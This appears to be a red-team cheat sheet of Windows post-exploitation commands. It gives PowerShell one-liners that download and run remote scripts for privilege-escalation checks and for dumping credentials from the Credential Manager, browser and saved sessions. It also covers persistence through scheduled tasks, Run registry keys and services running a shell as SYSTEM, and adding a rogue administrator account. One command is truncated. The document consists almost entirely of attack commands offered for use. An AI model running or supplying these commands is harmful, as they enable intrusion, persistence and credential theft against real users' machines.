 # PowerUp
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks

# SharpUp
https://github.com/GhostPack/SharpUp

# Sherlock
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
Find-AllVulns

# Watson
https://github.com/rasta-mouse/Watson

# Create new task
schtasks /create /sc minute /mo 1 /tn "eviloo" /tr C:\shell.exe /ru "SYSTEM"
schtasks /create /sc onlogon /tn "task-name" /tr "File" /ru "username"

# Add User
net user testuser P@ssw0rd /add
net localgroup administrators testuser /add

# Create Service
sc create evilsvc binPath= "c:\Windows\System32\calc.exe" start= "auto"

# Registry Keys
REG ADD HKEY_CURRENT_USER\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"

# StartUp Folder (Run(shell:startup))
C:\Users\Hassan.saad\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

# Memory Dump
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/MindMap.png?raw=true)

# Windows Credentials Manager
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1')
Invoke-WCMDump

# Web Credentials Manager
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1')
Get-WebCredentials

# Chrome Passwords
https://github.com/ohyicong/decrypt-chrome-passwords/raw/main/decrypt_chrome_password.exe

# Chrome History
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1')
Get-ChromeDump > chromepwds.txt

# Other Saved Credentials
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1')
Invoke-SessionGopher -Thorough
